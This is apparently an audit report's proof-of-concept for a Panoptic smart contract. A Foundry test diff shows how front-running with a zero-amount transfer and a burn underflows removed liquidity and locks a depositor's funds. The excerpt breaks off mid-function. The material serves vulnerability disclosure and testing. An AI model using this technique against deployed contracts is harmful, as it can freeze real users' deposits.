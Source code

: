 ### POC Code
Set fork_block_number = 18706858
For the division by 0 revert lock run : `forge test --mt testHash_DepositAmountLockDueToUnderflowDenomZero`
For the casting error revert lock run : `forge test --mt testHash_DepositAmountLockDueToUnderflowCastingError`
```diff
diff --git a/test/foundry/core/SemiFungiblePositionManager.t.sol b/test/foundry/core/SemiFungiblePositionManager.t.sol
index 5f09101..f5b6110 100644
--- a/test/foundry/core/SemiFungiblePositionManager.t.sol
+++ b/test/foundry/core/SemiFungiblePositionManager.t.sol
@@ -5,7 +5,7 @@ import "forge-std/Test.sol";
 import {stdMath} from "forge-std/StdMath.sol";
 import {Errors} from "@libraries/Errors.sol";
 import {Math} from "@libraries/Math.sol";
-import {PanopticMath} from "@libraries/PanopticMath.sol";
+import {PanopticMath,LiquidityChunk} from "@libraries/PanopticMath.sol";
 import {CallbackLib} from "@libraries/CallbackLib.sol";
 import {TokenId} from "@types/TokenId.sol";
 import {LeftRight} from "@types/LeftRight.sol";
@@ -241,6 +241,127 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
         sfpm = new SemiFungiblePositionManagerHarness(V3FACTORY);
     }
 
+    function testHash_DepositAmountLockDueToUnderflowDenomZero() public {
+        _initWorld(0);
+        sfpm.initializeAMMPool(token0, token1, fee);
+
+        int24 strike = (currentTick / tickSpacing * tickSpacing) + 3 * tickSpacing;
+        int24 width = 2;
+
+        uint256 shortTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, isWETH, 0, 0, 0, strike, width);
+        uint256 longTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, isWETH, 1, 0, 0, strike, width);
+
+        // size of position alice is about to deposit
+        uint128 posSize = 1e18;
+        uint128 aliceToGetLiquidity =
+            LiquidityChunk.liquidity(PanopticMath.getLiquidityChunk(shortTokenId, 0, posSize, tickSpacing));
+
+        // front run
+        vm.stopPrank();
+        deal(token0, address(this), type(uint128).max);
+        deal(token1, address(this), type(uint128).max);
+
+        IERC20Partial(token0).approve(address(sfpm), type(uint256).max);
+        IERC20Partial(token1).approve(address(sfpm), type(uint256).max);
+
+        // mint short and convert it to removed amount by minting a corresponding long
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+        sfpm.mintTokenizedPosition(longTokenId, posSize, type(int24).min, type(int24).max);
+
+        // move these amounts somewhere by passing 0 as the token amount. this will set removedLiquidity and netLiquidity to 0 while still retaining the tokens
+        sfpm.safeTransferFrom(address(this), address(0x1231), longTokenId, 0, "");
+
+        // burn the long position. this will cause underflow and set removedAmount == uint128 max - alice deposit.
+        sfpm.burnTokenizedPosition(longTokenId, posSize, type(int24).min, type(int24).max);
+
```